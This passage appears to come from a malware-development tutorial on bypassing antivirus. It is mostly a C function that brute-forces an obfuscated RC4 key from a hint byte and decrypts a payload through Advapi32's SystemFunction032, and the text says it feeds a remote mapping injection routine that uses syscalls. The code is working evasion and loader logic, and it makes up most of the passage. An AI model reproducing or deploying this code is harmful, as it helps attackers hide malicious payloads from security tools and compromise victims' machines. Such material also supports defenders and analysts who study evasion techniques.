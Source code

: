 [![](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-716812124-de717043-aa23-40c9-8058-f0ae0c06f407.png)](81%20Bypassing%20AVs%20c8b98ed828814f89b8db2d5ac5a9c230/av-bypass-716812124-de717043-aa23-40c9-8058-f0ae0c06f407.png)The `Rc4EncryptionViSystemFunc032` function will be updated to include the brute forcing logic. The function will be called by `RemoteMappingInjectionViaSyscalls`.


```
BOOL Rc4EncryptionViSystemFunc032(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {

	// The return of SystemFunction032
	NTSTATUS        	STATUS				= NULL;
	BYTE			RealKey	[KEY_SIZE]	= { 0 };
	int			    b				    = 0;

	// Brute forcing the key:
	while (1) {
		// Using the hint byte, if this is equal, then we found the 'b' value needed to decrypt the key
		if (((pRc4Key[0] ^ b) - 0) == HINT_BYTE)
			break;
		// Else, increment 'b' and try again
		else
			b++;
	}

	printf("[i] Calculated 'b' to be : 0x%0.2X \n", b);

	// Decrypting the key
	for (int i = 0; i < KEY_SIZE; i++) {
		RealKey[i] = (BYTE)((pRc4Key[i] ^ b) - i);
	}

	// Making 2 USTRING variables, 1 passed as key and one passed as the block of data to encrypt/decrypt
	USTRING         Key = { .Buffer = RealKey,              .Length = dwRc4KeySize,         .MaximumLength = dwRc4KeySize },
			        Img = { .Buffer = pPayloadData,         .Length = sPayloadSize,         .MaximumLength = sPayloadSize };


	// Since SystemFunction032 is exported from Advapi32.dll, we load it Advapi32 into the prcess,
	// And using its return as the hModule parameter in GetProcAddress
	fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");

	// If SystemFunction032 calls failed it will return non zero value
	if ((STATUS = SystemFunction032(&Img, &Key)) != 0x0) {
		printf("[!] SystemFunction032 FAILED With Error : 0x%0.8X\n", STATUS);
		return FALSE;
	}

	return TRUE;
}

```
### **Brute Force Decryption Results**
